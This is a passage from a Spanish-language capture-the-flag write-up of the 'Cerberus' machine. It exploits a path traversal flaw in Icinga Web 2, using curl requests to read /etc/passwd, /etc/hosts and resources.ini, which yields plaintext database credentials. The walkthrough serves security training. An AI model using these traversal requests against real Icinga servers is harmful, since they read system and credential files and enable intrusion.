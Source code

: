 - Como vemos, hemos sido capaces de leer el archivo "/etc/passwd" de la máquina víctima, lo que significa que el sistema de Icinga Web 2 usado sí que es vulnerable.

- Sin embargo hay que darnos cuenta de algo, y es que se supone que la máquina Cerberus es una WIndows, por lo que no debería existir el archivo "/etc/passwd" en una Windows, lo que nos indicaría que estamos realizando la comunicación con un contenedor que está corriendo Linux por detrás; para corroborar esto leemos el archivo "/etc/hosts":

```bash
curl "http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts"

127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


- Tal y como sospechábamos, la dirección IP es diferente a la de la máquina víctima real, por lo que podemos afirmar que estamos ante un contenedor que tiene la dirección "172.16.22.1" y que también está apuntando a un DC, el cual debería ser la máquina Windows.

- En este punto, debemos hacer un reconocimiento o búsqueda de información útil que nos pueda brindar acceso al sistema; como se trata de un Icinga Web 2, lo que sería factible de hacer es leer los archivos de configuración de Icinga; si hacemos una búsqueda en Internet podemos encontrar las posbiles rutas de estos archivos:

```js
/etc/icingaweb2/resources.ini
/etc/icingaweb2/roles.ini
/etc/icingaweb2/config.ini
```


- Probamos leyendo cada uno de estos archivos:

```bash
curl "http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/icingaweb2/resources.ini"

[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```

- Como podemos ver, el archivo "resources.ini" efectivamente existe y contiene información que al parecer corresponden al usuario y contraseña de la base de datos de Icinga Web 2.
